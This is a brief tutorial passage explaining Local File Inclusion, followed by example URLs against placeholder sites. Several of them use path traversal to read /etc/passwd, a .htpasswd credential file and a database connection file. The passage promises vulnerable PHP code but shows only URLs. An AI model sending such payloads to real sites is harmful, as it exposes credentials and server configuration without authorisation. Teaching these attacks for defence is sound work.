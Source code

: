 ### How does an LFI Attack Work

A Local File Inclusion can occur when an application includes a file as user input without properly validating it. This flaw enables an attacker to include malicious files by manipulating the input.

The following vulnerable PHP code could lead to LFI:

`https://website-example.com/?page=filename.php`

`https://website-example.com/?page=../../../../etc/test.txt`

> http://www.example_target_website.com/download.php?file=document.html

> http://www.example_target_website.com/download.php?file=../../../../etc/passwd

> https://example-vulnerable-website.com/?module=contact.php

> https://example-vulnerable-website.com/?module=/etc/passwd

> https://example-vulnerable-website.com/?module=uploads/image123.gif

>https://example-vulnerable-website.com/?helpfile=login.txt

`https://example-vulnerable-website.com/?helpfile=../secret/.htpasswd`

`https://example-vulnerable-website.com/?download=brochure.pdf`

`https://example-vulnerable-website.com/?download=../include/connection.php`
